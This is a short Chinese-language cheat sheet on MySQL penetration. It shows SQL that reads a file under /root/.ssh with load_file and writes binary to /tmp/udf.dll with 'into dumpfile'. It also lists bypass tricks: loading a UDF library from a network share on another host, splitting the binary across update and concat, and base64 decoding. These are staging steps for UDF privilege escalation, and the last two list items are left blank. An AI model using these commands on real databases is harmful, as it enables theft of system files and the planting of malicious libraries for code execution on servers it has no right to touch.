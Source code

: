 ## 1. 渗透



### 1.2. 读文件

```mysql
create temporary table text(test text);
insert into text(test) values (load_file('/root/.ssh/id_rsa.pub'));
select * from text;
```



### 1.3. 写文件

```mysql
select 0x30 into dumpfile '/tmp/udf.dll';
```

关于绕过可以用：

1. load_file函数支持网络路径。`load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') `

2. 将二进制拆分，用update写入表中。

   ```mysql
   create table temp(data longblob);
   insert into temp(data) values 0x30;
   update temp set data = concat(data ,0x31);
   select data from temp into dumpfile '/tmp/udf.dll';
   ```

3. 利用base64。

   ```mysql
   select from_base64("MQo=") into dumpfile '/tmp/udf.dll';
   ```

4. 

5. 

